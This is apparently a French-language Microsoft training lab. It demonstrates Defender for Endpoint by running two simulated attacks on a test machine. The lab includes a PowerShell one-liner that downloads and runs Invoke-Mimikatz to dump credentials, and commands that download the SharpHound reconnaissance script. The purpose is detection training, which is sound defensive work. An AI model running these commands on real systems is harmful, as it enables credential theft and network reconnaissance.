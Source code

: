 # Module 2 Démo : atténuation des menaces avec Microsoft Defender pour point de terminaison

**Remarque** : la réussite de cette démonstration dépend de l’exécution correcte de toutes les étapes décrites dans le [document sur les conditions préalables](00-prerequisites.md).

## Attaques simulées

Dans cette tâche, vous allez exécuter deux attaques simulées pour explorer les fonctionnalités de Microsoft Defender for Endpoint.

1. Si vous n’êtes pas déjà sur le portail Microsoft Defender XDR dans votre navigateur, accédez à Microsoft Defender XDR à l’adresse (https://security.microsoft.com) connecté en tant qu’administrateur pour votre locataire.

Vous exécuterez les attaques *simulées* à l’aide de *PowerShell* sur *WIN1* pour explorer les fonctionnalités de Microsoft Defender pour point de terminaison.

`Attack 1: Mimikatz - Credential Dumping`

1. Sur l’ordinateur *WIN1*, tapez **Commande** dans la barre de recherche, puis sélectionnez **Exécuter en tant qu’administrateur**.

1. Copiez et collez la commande suivante dans la fenêtre **Administrateur : invite de commandes**, puis appuyez sur **Entrée** pour l’exécuter.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Vous devez voir un message indiquant que l’*Accès est refusé* ainsi qu’un message contextuel de `Microsoft Defender Antivirus, Windows Security Virus and threats protection` affichant *Menaces trouvées*.

1. Quittez la fenêtre **Administrateur : invite de commandes** en tapant **quitter** et en appuyant sur **Entrée**.

`Attack 2: Bloodhound - Collection`

1. Sur l’ordinateur *WIN1*, entrez **PowerShell** dans la barre de recherche, sélectionnez **Windows PowerShell**, puis **Exécuter en tant qu’administrateur**.

1. Copiez et collez les commandes suivantes dans la fenêtre **Administrateur : Windows PowerShell**, puis appuyez sur **Entrée** pour l’exécuter.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Remarque :** Il est recommandé de copier, coller et exécuter les commandes une par une. Vous pouvez ouvrir *Bloc-notes* et copier les commandes dans un fichier temporaire pour y parvenir. La première commande crée un dossier nommé *ExternalPayloads* dans le même dossier que le dossier *Atomic Red Team*. La deuxième commande télécharge le fichier *SharpHound.ps1* à partir du référentiel GitHub *BloodHound* et l’enregistre dans le dossier *ExternalPayloads*.

1. Un message contextuel s’affiche à partir de `Windows Security Virus and threats protection` affichant *Menaces trouvées*.

1. Copiez et collez la commande suivante dans la fenêtre **Administrateur : Windows PowerShell**, puis appuyez sur **Entrée** pour l’exécuter.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Si la sortie a la valeur *True*, le fichier de charge utile du programme malveillant n’a pas été supprimé par Microsoft Defender Antivirus. Si la sortie a la valeur *False*, le fichier de charge utile du programme malveillant a été supprimé par Microsoft Defender Antivirus. Utilisez la touche de direction vers le haut pour répéter la commande jusqu’à ce que la sortie soit *False*.

## Vous avez terminé la démonstration.
